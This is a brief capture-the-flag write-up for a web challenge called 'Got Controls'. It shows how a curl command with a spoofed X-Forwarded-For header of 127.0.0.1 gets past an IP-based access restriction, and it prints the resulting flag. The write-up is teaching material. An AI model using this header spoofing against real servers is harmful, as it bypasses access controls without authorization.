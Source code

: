 # Got Controls

- Level: easy
- Points: 50
- Category: Web

Upon visiting the website we are greeted with the following message: "Sorry, your IP is not allowed, this server is only accessible from local machine or local LAN."

![Imgur](https://i.imgur.com/jsvOw3c.png)

So there's some kind of IP filtering we have to bypass

# Solution

using the `X-Forwarded-For` header, we can try to impersonate a local IP adress, localhost for example

```bash
#!/bin/bash
curl --verbose --header "X-Forwarded-For: 127.0.0.1" -X GET http://35.197.254.240/gotcontrol/
```

# Flag
The response comes back
`You got me, here's the flag : FLAG{NEVER_TRUST_HEADERS}`
